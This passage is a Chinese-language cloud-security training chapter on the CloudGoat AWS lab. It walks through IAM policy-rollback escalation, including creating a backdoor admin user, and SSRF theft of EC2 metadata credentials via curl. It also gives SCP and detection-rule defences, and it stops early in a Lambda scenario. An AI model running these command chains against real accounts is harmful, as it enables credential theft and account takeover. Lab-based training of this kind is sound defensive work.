



## 案例六：CloudGoat云安全实战

CloudGoat 是安全研究领域公认的 AWS 云攻防训练标杆平台。本案例从平台原理、环境搭建、五大核心攻击场景、综合联动攻击到防御体系，提供一条完整的云安全实战学习路径。每个场景均包含真实事件背景、完整攻击链、防御方案与检测规则，帮助安全工程师建立"攻击者思维"以构建更有效的防御体系。

---

### 6.1 CloudGoat 平台概述

CloudGoat 由美国安全研究公司 [Rhino Security Labs](https://rhinosecuritylabs.com/) 开源，是业界最具影响力的 **"By Design" 云靶场平台**。与传统漏洞扫描工具不同，CloudGoat 的核心理念是 **"By Design, By Mistake"**——每个场景都故意植入真实环境中最常见的云配置错误，让安全从业者在可销毁的 AWS 沙箱中完成从信息收集到权限提升、从横向移动到数据窃取的完整攻击链演练。

#### 6.1.1 为什么选择 CloudGoat

在云安全训练领域，有多个平台可供选择。下表对比了主流平台的差异，帮助你做出最适合自身需求的选择：

| 平台 | 云提供商 | 场景数量 | 部署方式 | 适合人群 | 核心特点 | 开源协议 |
|------|---------|---------|---------|---------|---------|---------|
| **CloudGoat** | AWS（主力），GCP/Azure（社区） | 20+ 官方场景 | Terraform IaC | 中级安全工程师 | IaC 完全透明，真实攻击路径，社区活跃 | MIT |
| **AWSGoat** | AWS | 15+ 场景 | CloudFormation | 初级-中级 | 场景更丰富，覆盖 IaC 安全 | MIT |
| **GCPGoat** | GCP | 10+ 场景 | Terraform | 中级安全工程师 | 专注 GCP 安全 | MIT |
| **TerraGoat** | AWS/Azure/GCP | 基础场景 | Terraform | DevSecOps | 专注 IaC 安全扫描 | Apache 2.0 |
| **DVCP** | 多云 | 5+ 场景 | Docker | 初学者 | 轻量级，适合入门 | MIT |
| **Pwned Labs** | AWS/Azure | 30+ 场景 | SaaS | 初级-高级 | 商业平台，有指导教程 | 商业 |
| **flAWS.cloud** | AWS | 14 关卡 | 纯 Web | 入门-中级 | 无需部署，浏览器即可练习 | 免费 |

CloudGoat 的核心优势体现在以下四个维度：

**① IaC 完全透明**：每个场景的基础设施由 Terraform 定义，学习者可以逐行审计场景的搭建逻辑。这不仅让你知道"怎么打"，更让你理解"为什么会出问题"——这是从脚本小子到安全架构师的关键跨越。

**② 真实攻击路径**：场景设计直接参考真实云安全事故（如 Capital One 数据泄露、Tesla 云挖矿事件、Accenture S3 泄露事件），而非虚构漏洞。每个场景的攻击手法在真实环境中均可复现。

**③ 资源自动清理**：`cloudgoat destroy` 一键销毁所有 AWS 资源，避免意外计费。这一点对在个人 AWS 账户中练习的用户至关重要。

**④ 渐进式难度**：从简单的 IAM 权限提升（10 分钟可完成）到复杂的多服务攻击链（需要数小时），覆盖从初学者到高级渗透测试工程师的所有水平。

#### 6.1.2 CloudGoat 场景分类与攻击链

CloudGoat 的场景覆盖了 AWS 攻击面的主要类型。按照 MITRE ATT&CK 云矩阵（Cloud Matrix）分类如下：

```mermaid
graph TD
    A[CloudGoat 场景] --> B[初始访问 Initial Access]
    A --> C[权限提升 Privilege Escalation]
    A --> D[横向移动 Lateral Movement]
    A --> E[数据窃取 Exfiltration]
    A --> F[持久化 Persistence]
    A --> G[防御规避 Defense Evasion]

    B --> B1[ec2_ssrf<br/>EC2 SSRF 获取 IMDS 凭证]
    B --> B2[rce_web_app<br/>Web 应用 RCE 入侵]
    B --> B3[cloud_breach_s3<br/>S3 公开数据泄露]

    C --> C1[iam_privesc_by_rollback<br/>IAM 策略回滚提权]
    C --> C2[lambda_privesc<br/>Lambda 函数提权]
    C --> C3[iam_privesc_by_attachment<br/>策略附加提权]
    C --> C4[glue_privesc<br/>Glue 服务提权]

    D --> D1[ecs_takeover<br/>ECS 容器接管]
    D --> D2[ec2_admin_via_iam<br/>通过 IAM 控制 EC2]

    E --> E1[s3_exfiltration<br/>S3 数据外泄]
    E --> E2[rds_snapshot_exfil<br/>RDS 快照外泄]
    E --> E3[secrets_manager<br/>Secrets Manager 凭证窃取]

    F --> F1[dynamodb_privesc<br/>DynamoDB 权限维持]
    F --> F2[codebuild_secrets<br/>CodeBuild 持久化]

    G --> G1[detection_evasion<br/>日志绕过与检测规避]

    style A fill:#2d3748,color:#fff
    style B fill:#e53e3e,color:#fff
    style C fill:#dd6b20,color:#fff
    style D fill:#38a169,color:#fff
    style E fill:#3182ce,color:#fff
    style F fill:#805ad5,color:#fff
    style G fill:#718096,color:#fff
```



#### 6.1.3 CloudGoat 的工作原理

CloudGoat 的执行流程遵循 **准备→部署→攻击→清理** 四阶段模型：

```mermaid
flowchart LR
    subgraph 部署阶段
        A[cg create 场景名] --> B[Terraform Init]
        B --> C[Terraform Apply]
        C --> D[输出凭证 cgoat_output.txt]
    end

    subgraph 攻击阶段
        E[读取凭证] --> F[配置 Profile]
        F --> G[信息收集]
        G --> H[漏洞利用]
        H --> I[权限提升]
        I --> J[数据获取/Flag]
    end

    subgraph 清理阶段
        K[cg destroy 场景名] --> L[Terraform Destroy]
        L --> M[资源全部删除]
    end

    D -.-> E
    J -.-> K

    style A fill:#e53e3e,color:#fff
    style K fill:#38a169,color:#fff
```



每个场景的 Terraform 模块通常包含以下文件：
- `main.tf` — 主要资源定义（故意引入的配置错误）
- `variables.tf` — 输入变量（如 `cgid` 用于隔离不同实例）
- `cgoat_output.tf` — 输出定义（凭证、URL 等攻击入口）
- `outputs.tf` — Terraform 原生输出
- `start.sh` / `end.sh` — 可选的攻击启动/完成检查脚本

---

### 6.2 环境搭建详解

#### 6.2.1 前置条件检查

在开始之前，确保系统满足以下要求：

```bash
#!/bin/bash
# ===== 一键检查环境依赖 =====

echo "===== CloudGoat 环境检查 ====="

# 检查 Python 版本（需要 3.9+）
python3 --version 2>/dev/null || echo "[FAIL] 未安装 Python3"

# 检查 pip
pip3 --version 2>/dev/null || echo "[FAIL] 未安装 pip3"

# 检查 Terraform（需要 1.0+）
terraform --version 2>/dev/null || echo "[FAIL] 未安装 Terraform"

# 检查 AWS CLI（需要 2.x）
aws --version 2>/dev/null || echo "[FAIL] 未安装 AWS CLI"

# 检查 Git
git --version 2>/dev/null || echo "[FAIL] 未安装 Git"

# 检查 zip 工具（打包 Lambda 函数需要）
zip --version 2>/dev/null || echo "[WARN] 未安装 zip 工具"

echo "===== 检查完成 ====="
```

如果缺少 Terraform，使用以下方式安装：

```bash
# Linux (amd64) - 推荐使用官方版本管理器
curl -fsSL https://releases.hashicorp.com/terraform/1.9.8/terraform_1.9.8_linux_amd64.zip -o /tmp/terraform.zip
sudo unzip /tmp/terraform.zip -d /usr/local/bin/
rm /tmp/terraform.zip
terraform --version

# macOS（使用 Homebrew）
brew install terraform

# Windows（使用 Chocolatey）
choco install terraform

# 国内加速：使用镜像源
export TF_CLI_CONFIG_FILE=~/.terraformrc
cat > ~/.terraformrc << 'EOF'
provider_installation {
  network_mirror {
    url = "https://mirrors.tencent.com/terraform/"
    include = ["registry.terraform.io/*/*"]
  }
}
EOF
```

#### 6.2.2 安装 CloudGoat

```bash
# 方式一：从源码安装（推荐，可查看和审计场景源码）
git clone https://github.com/RhinoSecurityLabs/cloudgoat.git
cd cloudgoat
pip3 install -r requirements.txt

# 为 cloudgoat.py 创建全局别名（可选，方便后续使用）
echo 'alias cloudgoat="python3 $(pwd)/cloudgoat.py"' >> ~/.bashrc
source ~/.bashrc

# 方式二：使用 pip 安装（不推荐，无法审计场景源码）
pip3 install cloudgoat

# 验证安装
python3 cloudgoat.py --help

# 查看所有可用场景
python3 cloudgoat.py list
```

#### 6.2.3 配置 AWS 凭证（关键步骤）

CloudGoat 需要一个具有 **管理员权限** 的 AWS IAM 用户来部署场景资源。**强烈建议创建专用的 CloudGoat 用户**，而不是使用个人管理员账户。

**为什么不能用个人管理员账户？** 原因有三：第一，CloudGoat 部署的资源具有故意的配置错误，如果混入你的生产资源，可能造成安全风险；第二，攻击练习过程中的操作会被 CloudTrail 记录，与生产日志混在一起会增加审计难度；第三，一旦操作失误（如误删资源），专用账户的影响范围可控。

```bash
# ===== 步骤 1：在 AWS 控制台创建 IAM 用户 =====
# 导航至 IAM → Users → Create User
# 用户名：cloudgoat-admin
# 权限：AdministratorAccess（或使用下方的最小权限策略）

# ===== 步骤 2：创建 Access Key =====
# 在用户详情页 → Security credentials → Create Access Key
# 选择 "Command Line Interface (CLI)"
# 下载 CSV 文件保存密钥（仅显示一次！）

# ===== 步骤 3：配置 AWS CLI Profile =====
aws configure --profile cloudgoat
# 输入 Access Key ID、Secret Access Key、Region（建议 us-east-1）、输出格式（json）

# ===== 步骤 4：验证凭证 =====
aws sts get-caller-identity --profile cloudgoat
# 预期输出：
# {
#     "UserId": "AIDAXXXXXXXXXXXXXXXXX",
#     "Account": "123456789012",
#     "Arn": "arn:aws:iam::123456789012:user/cloudgoat-admin"
# }

# ===== 步骤 5：配置 CloudGoat 使用该 Profile =====
python3 cloudgoat.py config profile cloudgoat
```

**最小权限策略（替代 AdministratorAccess）**：

如果你不希望给 CloudGoat 用户完整的管理员权限，可以使用以下自定义策略。该策略只开放 CloudGoat 场景需要的服务，并限制在指定区域：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "CloudGoatDeployment",
            "Effect": "Allow",
            "Action": [
                "ec2:*", "iam:*", "lambda:*", "s3:*",
                "rds:*", "dynamodb:*", "glue:*", "ecs:*",
                "cloudwatch:*", "logs:*", "secretsmanager:*",
                "codebuild:*", "sts:*", "ssm:*",
                "cloudformation:*", "elasticloadbalancing:*",
                "events:*", "sns:*", "sqs:*", "kms:*",
                "lambda:CreateFunction", "lambda:InvokeFunction",
                "lambda:GetFunction", "lambda:DeleteFunction"
            ],
            "Resource": "*",
            "Condition": {
                "StringEquals": {
                    "aws:RequestedRegion": "us-east-1"
                }
            }
        },
        {
            "Sid": "AllowTerraformStateBucket",
            "Effect": "Allow",
            "Action": [
                "s3:GetObject", "s3:PutObject", "s3:DeleteObject",
                "s3:CreateBucket", "s3:DeleteBucket", "s3:ListBucket"
            ],
            "Resource": [
                "arn:aws:s3:::cloudgoat-tfstate-*",
                "arn:aws:s3:::cloudgoat-tfstate-*/*"
            ]
        }
    ]
}
```

> **安全提醒**：此策略仍然相当宽泛。在团队环境中，建议使用 `aws:ResourceTag` 条件键限制只能操作带 `cloudgoat=true` 标签的资源，并在 AWS Organizations 中使用 SCP 限定 CloudGoat 用户的权限边界。

#### 6.2.4 配置辅助工具

CloudGoat 场景通常需要额外的安全工具来完成攻击链。以下是必备和推荐的工具：

```bash
# ===== 必备工具 =====

# enumerate-iam（IAM 权限枚举 - 场景中频繁使用）
pip3 install enumerate-iam

# Pacu（AWS 攻击框架，由 Rhino Security 开发，CloudGoat 姊妹项目）
pip3 install pacu

# ===== 推荐工具 =====

# ScoutSuite（多云安全审计）
pip3 install scoutsuite

# Prowler（AWS 安全评估，基于 CIS Benchmark）
pip3 install prowler

# CloudMapper（可视化 AWS 环境架构）
git clone https://github.com/duo-labs/cloudmapper.git
cd cloudmapper
pip3 install -r requirements.txt
cd ..

# cfripper（CloudFormation 模板安全检查）
pip3 install cfripper

# checkov（IaC 安全扫描，支持 Terraform/CloudFormation/K8s）
pip3 install checkov

# prowler（AWS 安全最佳实践检查）
pip3 install prowler
```

**工具用途速查表**：

| 工具 | 核心功能 | 使用场景 | 适用阶段 |
|------|---------|---------|---------|
| `enumerate-iam` | 通过 API 调用枚举当前凭证的权限 | 确认已获取的权限范围 | 信息收集 |
| Pacu | 模块化 AWS 攻击框架 | 自动化权限提升、横向移动 | 攻击利用 |
| ScoutSuite | 多云安全配置审计 | 发现配置错误和安全风险 | 信息收集 |
| Prowler | CIS Benchmark 合规检查 | 检查服务配置是否安全 | 信息收集/防御 |
| CloudMapper | AWS 资源关系可视化 | 理解环境拓扑、发现攻击路径 | 信息收集 |
| cfripper | CloudFormation 模板审计 | 检测 IaC 模板中的安全问题 | 防御 |
| checkov | IaC 安全扫描 | 自动化检测 Terraform/CF 中的错误 | 防御 |

---

### 6.3 攻击场景一：IAM 权限提升（iam_privesc_by_rollback）

这是 CloudGoat 最经典的入门场景，模拟了 AWS IAM 策略版本回滚导致的权限提升漏洞。该场景直接映射 MITRE ATT&CK 框架中的 T1078（Valid Accounts）和 T1098（Account Manipulation）技术。

#### 6.3.1 场景背景

AWS IAM 支持策略版本管理（每个托管策略最多保留 5 个版本）。管理员在调整权限时，通常的操作流程是：创建新版本 → 设为默认版本 → 旧版本保留但不再使用。问题在于，如果管理员将权限从"高"调整为"低"，旧的高权限版本仍然存在，且攻击者拥有 `iam:SetDefaultPolicyVersion` 权限时，可以将策略切回高权限版本。

**这是一种典型的逻辑漏洞，而非代码缺陷。** 它利用的是 AWS 策略版本管理机制的正常功能，只是被错误地暴露给了低权限用户。

**真实案例参考**：2019 年，某大型云服务商的内部审计发现，超过 30% 的托管 IAM 策略存在"僵尸版本"，其中部分版本包含远超当前版本的权限。这类问题在大规模 AWS 环境中非常普遍，尤其是在有多个管理员轮流管理 IAM 策略的企业中。

#### 6.3.2 场景部署

```bash
# 部署场景
python3 cloudgoat.py create iam_privesc_by_rollback

# 预期输出：
# [*] Creating scenario iam_privesc_by_rollback...
# [*] terraform init
# [*] terraform apply -auto-approve
# [*] Scenario deployed.
# [*] CloudGoat output file written to: ./iam_privesc_by_rollback/cgoat_output.txt
# [cloudgoat] iam_privesc_by_rollback successfully deployed.
# [*] IAM user 'cglamb' created with low-privilege policy
# [*] High-privilege policy version exists but is not the default

# 查看场景输出文件获取初始凭证
cat ./iam_privesc_by_rollback/cgoat_output.txt
# 输出包含：用户名、Access Key ID、Secret Access Key、Region
```

> **提示**：部署过程通常需要 1-3 分钟。如果卡在 `terraform apply`，可能是网络问题或 IAM 权限不足。详见 6.11 节故障排查。

#### 6.3.3 攻击步骤详解

**阶段一：初始信息收集**

```bash
# 配置攻击者 Profile
aws configure --profile attacker
# 输入 cgoat_output.txt 中的凭证

# 确认当前身份
aws sts get-caller-identity --profile attacker
# 输出：
# {
#     "UserId": "AIDA...",
#     "Account": "123456789012",
#     "Arn": "arn:aws:iam::123456789012:user/cglamb"
# }

# 列出当前用户关联的托管策略
aws iam list-attached-user-policies --user-name cglamb --profile attacker
# 输出显示附加了一个策略：
# arn:aws:iam::123456789012:policy/cg-low-priv-policy

# 列出用户内联策略
aws iam list-user-policies --user-name cglamb --profile attacker

# 列出用户所属的组
aws iam list-groups-for-user --user-name cglamb --profile attacker

# 尝试枚举权限（使用 enumerate-iam 工具）
enumerate-iam --access-key <AKIA...> --secret-key <secret> --region us-east-1
# enumerate-iam 会通过大量 API 调用来推断当前凭证的有效权限
```

**阶段二：发现可利用权限**

```bash
# 查看策略详情
aws iam get-policy --policy-arn arn:aws:iam::123456789012:policy/cg-low-priv-policy --profile attacker
# 注意 DefaultVersionId 字段，记录当前默认版本

# 获取当前默认版本的内容（假设是 v1）
aws iam get-policy-version \
  --policy-arn arn:aws:iam::123456789012:policy/cg-low-priv-policy \
  --version-id v1 \
  --profile attacker
# 输出显示只有基本的 sts:GetCallerIdentity 权限

# ★ 关键步骤：列出策略的所有版本
aws iam list-policy-versions \
  --policy-arn arn:aws:iam::123456789012:policy/cg-low-priv-policy \
  --profile attacker
# 输出：
# {
#     "Versions": [
#         { "VersionId": "v1", "IsDefaultVersion": true },
#         { "VersionId": "v2", "IsDefaultVersion": false },
#         { "VersionId": "v3", "IsDefaultVersion": false }
#     ]
# }

# 逐一检查每个非默认版本的内容
aws iam get-policy-version \
  --policy-arn arn:aws:iam::123456789012:policy/cg-low-priv-policy \
  --version-id v2 \
  --profile attacker
# v2：只有基本只读权限

aws iam get-policy-version \
  --policy-arn arn:aws:iam::123456789012:policy/cg-low-priv-policy \
  --version-id v3 \
  --profile attacker
# ★ v3：包含 iam:* 权限——这就是高权限版本！
```

**阶段三：策略回滚提权**

```bash
# 将策略默认版本切换到高权限的 v3
aws iam set-default-policy-version \
  --policy-arn arn:aws:iam::123456789012:policy/cg-low-priv-policy \
  --version-id v3 \
  --profile attacker

# 验证提权成功 - 现在可以执行之前无法执行的 IAM 操作
aws iam list-roles --profile attacker
aws iam list-users --profile attacker

# 进一步验证：创建后门管理员用户
aws iam create-user --user-name backdoor-admin --profile attacker
aws iam attach-user-policy \
  --user-name backdoor-admin \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess \
  --profile attacker

# 创建 Access Key 用于持久化
aws iam create-access-key --user-name backdoor-admin --profile attacker
```

**阶段四：验证目标资源访问**

```bash
# 列出 EC2 实例
aws ec2 describe-instances --profile attacker \
  --query "Reservations[].Instances[].[InstanceId,InstanceType,PublicIpAddress]" \
  --output table

# 读取 S3 Bucket 中的敏感数据
aws s3 ls --profile attacker
aws s3 cp s3://cg-secret-s3-bucket/secret.txt - --profile attacker

# 获取目标标志（Flag）
# CloudGoat 场景的 Flag 通常存储在 S3 对象的标签或 EC2 实例的标签中
```

#### 6.3.4 防御与检测

**预防措施——使用 SCP 限制策略版本操作**：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "DenyPolicyVersionSwitch",
            "Effect": "Deny",
            "Action": "iam:SetDefaultPolicyVersion",
            "Resource": "*",
            "Condition": {
                "StringNotEquals": {
                    "aws:PrincipalArn": "arn:aws:iam::*:role/OrganizationAdmin"
                }
            }
        }
    ]
}
```

**检测规则——通过 EventBridge 监控 SetDefaultPolicyVersion 操作**：

```json
{
    "source": ["aws.iam"],
    "detail-type": ["AWS API Call via CloudTrail"],
    "detail": {
        "eventName": ["SetDefaultPolicyVersion"],
        "userIdentity": {
            "type": ["IAMUser"]
        }
    }
}
```

**检测规则——通过 CloudWatch Logs Insights 查询异常策略变更**：

```sql
-- 查找所有策略版本切换操作
fields eventTime, userIdentity.arn, requestParameters.policyArn, requestParameters.versionId
| filter eventName = "SetDefaultPolicyVersion"
| sort eventTime desc
| limit 50
```

**最佳实践**：
- 使用 IAM Access Analyzer 定期审查策略版本，识别包含异常权限的非默认版本
- 在 CI/CD 中集成 `cfripper` 或 `checkov` 检测过宽权限
- 实施最小权限原则，每个托管策略只保留当前使用的一个版本
- 使用 AWS Organizations SCP 限制敏感 IAM 操作（如 `iam:SetDefaultPolicyVersion`）
- 定期运行 `aws iam list-policies --scope Local` 审查所有本地托管策略

---

### 6.4 攻击场景二：EC2 SSRF 入侵（ec2_ssrf）

此场景模拟了通过 Web 应用的 SSRF 漏洞访问 EC2 实例元数据服务（IMDS），获取临时凭证后横向移动的完整攻击链。这是云安全中最具影响力的攻击模式之一。

#### 6.4.1 场景背景

**2019 年 Capital One 数据泄露事件** 是此场景的直接原型。攻击者 Paige Thompson 利用 WAF 配置错误，在托管于 AWS 的 Capital One Web 应用中注入了 SSRF 攻击。通过 SSRF，她访问了 EC2 实例的 IMDS（Instance Metadata Service），获取了具有 S3 读取权限的临时 IAM 角色凭证。最终，她窃取了超过 **1 亿美国用户和 600 万加拿大用户** 的个人信息，包括姓名、地址、信用评分、银行账户号码等。Capital One 被罚款 **8000 万美元**，Thompson 于 2022 年被判处 2 年监禁。

**IMDS 的工作原理**：AWS 为每个 EC2 实例提供一个本地 HTTP 端点（`http://169.254.169.254/latest/meta-data/`），允许实例获取自身信息（实例 ID、AMI ID、安全凭证等）。IMDSv1（旧版）直接通过 GET 请求获取数据，而 IMDSv2（新版）需要先通过 PUT 请求获取 Token，再使用 Token 访问数据。这个 PUT-then-GET 的两步机制是防御 SSRF 的关键。

#### 6.4.2 场景部署

```bash
python3 cloudgoat.py create ec2_ssrf

# 查看输出
cat ./ec2_ssrf/cgoat_output.txt
# 输出包含：
# - Web 应用 URL（攻击入口）
# - IAM 用户凭证（用于初始访问 Web 应用）
# - EC2 实例 ID
# - 附加的 IAM 角色名称
```

#### 6.4.3 攻击步骤详解

**阶段一：发现 SSRF 漏洞**

```bash
# 使用初始凭证访问 Web 应用
# 假设 Web 应用 URL 为 http://<ec2-public-ip>:8080
curl -s "http://<web-app-url>/page?url=http://example.com"
# 返回 example.com 的内容 → 确认应用会请求并返回指定 URL 的内容

# 测试 SSRF - 尝试访问本地元数据服务
curl -s "http://<web-app-url>/page?url=http://169.254.169.254/latest/meta-data/"
# 输出显示实例元数据列表：
# ami-id
# hostname
# iam/
# instance-id
# instance-type
# ...

# ★ 获取 IAM 角色名称
curl -s "http://<web-app-url>/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
# 输出：cg-ec2-role

# 探索更多元数据信息
curl -s "http://<web-app-url>/page?url=http://169.254.169.254/latest/meta-data/instance-id"
# 输出：i-0abc123def456789
```

**阶段二：获取临时凭证**

```bash
# ★ 核心攻击：获取临时 IAM 凭证
curl -s "http://<web-app-url>/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role"
# 输出：
# {
#     "Code": "Success",
#     "AccessKeyId": "ASIA...",
#     "SecretAccessKey": "...",
#     "Token": "FwoGZXIv...",
#     "Expiration": "2026-06-25T12:00:00Z"
# }

# 提取凭证（使用 jq 工具解析 JSON）
CRED_JSON=$(curl -s "http://<web-app-url>/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role")
export AWS_ACCESS_KEY_ID=$(echo $CRED_JSON | jq -r '.AccessKeyId')
export AWS_SECRET_ACCESS_KEY=$(echo $CRED_JSON | jq -r '.SecretAccessKey')
export AWS_SESSION_TOKEN=$(echo $CRED_JSON | jq -r '.Token')
```

**阶段三：使用临时凭证横向移动**

```bash
# 确认临时凭证的身份
aws sts get-caller-identity
# 输出：
# {
#     "Arn": "arn:aws:sts::123456789012:assumed-role/cg-ec2-role/i-0abc123def456789"
# }

# 枚举可用服务
aws sts get-caller-identity
aws s3 ls
aws iam list-roles  # 如果有权限

# 查找敏感数据
aws s3 ls s3://cg-secret-s3-bucket/ --recursive
aws s3 cp s3://cg-secret-s3-bucket/secret.txt ./secret.txt
cat ./secret.txt

# 尝试读取 Secrets Manager 中的凭证
aws secretsmanager list-secrets
aws secretsmanager get-secret-value --secret-id <secret-name>

# 尝试访问其他 EC2 实例
aws ec2 describe-instances \
  --query "Reservations[].Instances[].[InstanceId,PublicIpAddress,Tags[?Key=='Name'].Value|[0]]" \
  --output table
```

**阶段四：深入利用——获取更多凭证**

```bash
# 如果 EC2 角色有足够权限，可以尝试更多攻击

# 读取 SSM Parameter Store 中的敏感参数
aws ssm describe-parameters
aws ssm get-parameter --name <param-name> --with-decryption

# 访问 DynamoDB 中的数据
aws dynamodb list-tables
aws dynamodb scan --table-name <table-name>

# 尝试读取 KMS 加密的数据
aws kms list-keys
```

#### 6.4.4 防御与检测

**IMDSv2 强制策略——逐实例修改**：

```bash
# 要求所有新 EC2 实例使用 IMDSv2（需要 Token 认证）
aws ec2 modify-instance-metadata-options \
  --instance-id i-xxx \
  --http-tokens required \
  --http-endpoint enabled \
  --http-put-response-hop-limit 1
```

**IMDSv2 强制策略——使用 SCP 全局强制**：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "RequireIMDSv2",
            "Effect": "Deny",
            "Action": "ec2:RunInstances",
            "Resource": "arn:aws:ec2:*:*:instance/*",
            "Condition": {
                "StringNotEquals": {
                    "ec2:MetadataHttpTokens": "required"
                }
            }
        },
        {
            "Sid": "DenyIMDSAccessWithoutToken",
            "Effect": "Deny",
            "Action": [
                "ec2:RunInstances",
                "ec2:ModifyInstanceMetadataOptions"
            ],
            "Resource": "*",
            "Condition": {
                "NumericGreaterThan": {
                    "ec2:MetadataHttpPutResponseHopLimit": 1
                }
            }
        }
    ]
}
```

IMDSv1 与 IMDSv2 的关键差异：

| 特性 | IMDSv1 | IMDSv2 |
|------|--------|--------|
| 认证方式 | 直接 GET 请求 | 需要先 PUT 获取 Token，再带 Token GET |
| SSRF 防护 | 无（GET 请求可被 SSRF 利用） | 有（PUT 请求不能通过 SSRF 触发） |
| Token 过期 | N/A | 可配置（默认 6 小时，范围 1-21600 秒） |
| 跳数限制 | 可选 | 支持（推荐设为 1，防止容器逃逸利用） |
| AWS 默认 | 新账户默认支持 | 新账户默认要求 |

> **深入理解**：IMDSv2 的防护原理在于——SSRF 漏洞通常只能触发 GET 请求，而 IMDSv2 要求先发送一个 PUT 请求到 `/latest/api/token` 才能获取访问 Token。由于 SSRF 无法发送 PUT 请求（HTTP 方法受限），因此 IMDSv2 能有效防御 SSRF 攻击。

**检测规则——监控异常的 IMDS 访问模式**：

```sql
-- CloudWatch Logs Insights：查找异常的 IMDS 访问
fields eventTime, sourceIPAddress, userIdentity.arn, userAgent
| filter eventName = "GetInstanceMetadata" or eventName like /Get*/ 
| filter sourceIPAddress != "169.254.169.254"
| sort eventTime desc
| limit 100
```

---

### 6.5 攻击场景三：Lambda 提权（lambda_privesc）

此场景展示了通过 Lambda 函数的角色过度授权实现权限提升的攻击路径。在 Serverless 架构日益普及的今天，Lambda 安全已成为云安全的重要组成部分。

#### 6.5.1 场景背景

AWS Lambda 函数在执行时会附加一个 IAM 角色（Execution Role），该角色决定了函数能访问哪些 AWS 资源。在实际部署中，运维团队经常犯两个错误：**一是给 Lambda 角色附加了过多的权限**（如 `iam:PassRole`、`lambda:CreateFunction`），**二是允许低权限用户创建新的 Lambda 函数并指定高权限角色**。

当攻击者同时拥有 `lambda:CreateFunction` 和 `iam:PassRole` 权限时，可以创建一个恶意 Lambda 函数，使用高权限角色执行。Lambda 函数的代码在 AWS 的托管环境中运行，攻击者的恶意操作会以该角色的身份执行，从而实现权限提升。这种攻击路径在 Serverless 应用中非常隐蔽，因为恶意代码以合法 Lambda 函数的形式存在，不触发传统的入侵检测规则。

**真实案例**：在一次红队演练中，攻击者发现某企业的 CI/CD 管道中的 Lambda 函数拥有 `AdministratorAccess` 权限。通过入侵 CI/CD 系统（如窃取 GitHub Actions secrets），攻击者直接创建了恶意 Lambda 函数，实现了对整个 AWS 账户的完全控制。

#### 6.5.2 场景部署

```bash
python3 cloudgoat.py create lambda_privesc
cat ./lambda_privesc/cgoat_output.txt
# 输出包含：初始 IAM 用户凭证、Lambda 函数名、高权限角色 ARN
```

#### 6.5.3 攻击步骤详解

**阶段一：信息收集**

```bash
# 配置攻击者 Profile
aws configure --profile attacker

# 确认当前身份
aws sts get-caller-identity --profile attacker

# ★ 列出所有 Lambda 函数
aws lambda list-functions --profile attacker
# 发现一个函数：cg-lambda-function

